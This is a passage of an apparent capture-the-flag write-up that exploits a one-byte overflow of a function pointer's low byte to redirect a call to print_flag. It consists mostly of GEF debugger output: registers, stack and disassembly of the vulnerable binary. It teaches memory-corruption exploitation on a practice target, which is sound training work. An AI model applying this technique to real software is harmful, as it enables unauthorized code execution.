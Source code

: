## Exploitation

So we have a one byte overflow for the least significant byte of the function pointer that is called. Let's take a closer look at the address we are calling, and the address of `print_flag`:

```
gef➤  pie b *0x7d4
gef➤  pie run
Stopped due to shared library event (no libraries added or removed)
Which function would you like to call?
1111111111111111111111111111111

Breakpoint 1, 0x565557d4 in select_func ()
[+] base address 0x56555000
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x56555631  →  <register_tm_clones+49> add BYTE PTR [eax], al
$ebx   : 0x56556fb8  →  0x00001ec0
$ecx   : 0x6f      
$edx   : 0xffffd09e  →  "1111111111111111111111111111111VUV"
$esp   : 0xffffd090  →  0x00000000
$ebp   : 0xffffd0c8  →  0xffffd108  →  0x00000000
$esi   : 0xf7fb5000  →  0x001dbd6c
$edi   : 0xf7fb5000  →  0x001dbd6c
$eip   : 0x565557d4  →  <select_func+85> call eax
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd090│+0x0000: 0x00000000     ← $esp
0xffffd094│+0x0004: 0x0000000a
0xffffd098│+0x0008: 0x00000026 ("&"?)
0xffffd09c│+0x000c: 0x3131de24
0xffffd0a0│+0x0010: "11111111111111111111111111111VUV"
0xffffd0a4│+0x0014: "1111111111111111111111111VUV"
0xffffd0a8│+0x0018: "111111111111111111111VUV"
0xffffd0ac│+0x001c: "11111111111111111VUV"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565557c3 <select_func+68> adc    BYTE PTR [ebp-0x72f68a40], al
   0x565557c9 <select_func+74> sbb    DWORD PTR [edi+eiz*8+0x4589ffff], 0xfffffff4
   0x565557d1 <select_func+82> mov    eax, DWORD PTR [ebp-0xc]
 → 0x565557d4 <select_func+85> call   eax
   0x565557d6 <select_func+87> nop    
   0x565557d7 <select_func+88> mov    ebx, DWORD PTR [ebp-0x4]
   0x565557da <select_func+91> leave  
   0x565557db <select_func+92> ret    
   0x565557dc <main+0>         lea    ecx, [esp+0x4]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
*0x56555631 (
   [sp + 0x0] = 0x00000000,
   [sp + 0x4] = 0x0000000a,
   [sp + 0x8] = 0x00000026,
   [sp + 0xc] = 0x3131de24
)
```